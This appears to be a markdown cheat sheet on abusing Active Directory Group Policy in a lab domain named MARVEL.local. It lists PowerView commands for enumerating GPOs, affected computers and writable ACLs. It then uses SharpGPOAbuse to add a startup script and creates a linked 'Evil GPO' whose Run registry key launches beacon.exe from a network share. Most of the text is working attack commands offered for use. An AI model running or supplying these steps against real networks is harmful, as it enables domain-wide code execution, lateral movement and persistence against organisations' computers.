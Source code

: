## Enumeratation

### 1. Enumerate Domain GPOs then Affected OUs then Affected Computers
```powershell
Get-DomainGPO | select displayname,cn,whencreated,whenchanged | fl
Get-DomainOU -GPLink {CE680C75-3791-428D-BE7E-E75DDF297BE4} | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
```

### 2. Enumerate Domain GPOs then search for Restricted Groups in GptTmpl.inf & Groups.xml
- Get-GptTmpl "\\{Domain}\SysVol\{Domain}\Policies\{ID}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf"
- Get-GroupsXML "\\{Domain}\SysVol\{Domain}\Policies\{ID}\MACHINE\Preferences\Groups\Groups.xml"
```powershell
Get-DomainGPOLocalGroup
```

### Map User to GPO then Map GPO to Computers (Do Phase2 then Do Phase1)
```powershell
Get-DomainGPOUserLocalGroupMapping -Identity itsupport
```

## Modify Existing GPO
```powershell
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-410602843-3916082903-3170366279-[\d]{4,10}"} | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl

Get-DomainGPO -Identity "CN={CE680C75-3791-428D-BE7E-E75DDF297BE4},CN=Policies,CN=System,DC=MARVEL,DC=local"

ConvertFrom-SID "S-1-5-21-410602843-3916082903-3170366279-1119"

SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "start /b \\hydra-dc.marvel.local\secret\beacon.exe" --GPOName "Add Local Admin Access"
```

## Create & Link a GPO

### Create GPO
```powershell
Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=marvel,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }
```

### Link GPO to OU
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select SecurityIdentifier,ObjectDN,ActiveDirectoryRights,ObjectAceType | fl
```

### Install
```powershell
Get-WindowsCapability -Name RSAT* -Online | Select-Object -Property Name, State
Add-WindowsCapability -Online -Name Rsat.GroupPolicy.Management.Tools~~~~0.0.1.0

New-GPO -Name "Evil GPO"
Get-GPO -Name "Evil GPO" | New-GPLink -Target "OU=PC,DC=marvel,DC=local"

Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater0X" -Value "C:\Windows\System32\cmd.exe /c \\hydra-dc.marvel.local\secret\beacon.exe" -Type ExpandString
```
